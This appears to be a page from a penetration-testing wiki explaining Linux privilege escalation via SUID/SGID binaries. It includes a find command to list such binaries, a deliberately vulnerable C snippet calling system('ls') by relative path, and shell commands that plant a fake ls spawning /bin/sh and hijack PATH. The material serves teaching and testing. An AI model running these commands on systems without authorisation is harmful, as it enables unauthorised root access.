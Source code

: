 ```yaml
---
authors: 'ShutdownRepo, dreamkinn, p0dalirius'
category: infra
---
```


# SUID/SGID binaries

## Theory

On UNIX-like systems, binaries have permissions, just like any other file. Some of them often are over-privileged, sometimes allowing attackers to escalate their privileges on the system. The common permissions are read, write, execute. The extended ones are setuid, setgid, sticky bit, and so on.

The setuid/setgid (SUID/SGID) bits allows the binary to run with the privileges of the user/group owner instead of those of the user executing it. They can be spotted with the `s` or `S` permission in the file user or group owner permissions (i.e. `---s--s---`). When the file permissions features an uppercase `S` instead of a lowercase one, it means the corresponding user or group owner doesn't have execution rights.

> [!CAUTION]
> Limitations
> 
> * Just like capabilities, setuid and setgid bits are unset when a file is copied with `cp` or when its content changes.
> * Some partitions of the UNIX file system can be mounted with the `nosuid` option. In this case the setuid and setgid bits are ignored for binaries placed inside those partitions. It is a common good practice for tmpfs partitions like `/tmp` or`/run`. Searching the `/proc/mounts` pseudo-file for a `nosuid` flag can help find these partitions.

## Practice

All suid or sgid-enabled files the user can have access to can be listed with the following command.

```bash
find $starting_path -perm -u=s -type f 2>/dev/null

# Or in octal mode
find $starting_path -perm -4000 -type f 2>/dev/null
```

Vulnerable programs with these permissions are often targeted by attacker to obtain the user (for setuid) or group (for setgid) privileges. There are many techniques that attackers can use to hijack these binaries and obtain the associated rights.

### Living of the land

Using standard binaries features to bypass security restrictions is called Living off the land.


[living-off-the-land.md](living-off-the-land.md)


### Relative path calls

If a SUID/SGID binary makes calls to programs using relative paths instead of absolute paths, attackers can try to make the binary run a program controlled by the attacker. Let's take this vulnerable program as an example : 


```c
int function(int argc, char *argv[]){
/* ... */
 system("ls") // instead of system("/usr/bin/ls")
/* ... */
}
```


In the example above, the SUID/SGID binary calls the `ls` program using a relative path. An attacker can try to create a `ls` program somewhere he has write access to and edit the `PATH` environment variable so that his custom program is executed when running the SUID/SGID binary.

```bash
mkdir -p /tmp/attacker
cd /tmp/attacker && printf '#!/bin/sh\nexec /bin/sh\n' > /tmp/attacker/ls
chmod +x /tmp/attacker/ls 
PATH=/tmp/attacker:$PATH ./vuln
```

When the `vuln` program will be executed, the malicious `ls` program will be called and a shell will be opened. 

### Binary exploitation

In some cases, the binary that has SUID/SGID permissions can be reverse-engineered and attackers find ways to change the execution flow of that program to make it run something else.

## Resources

[https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
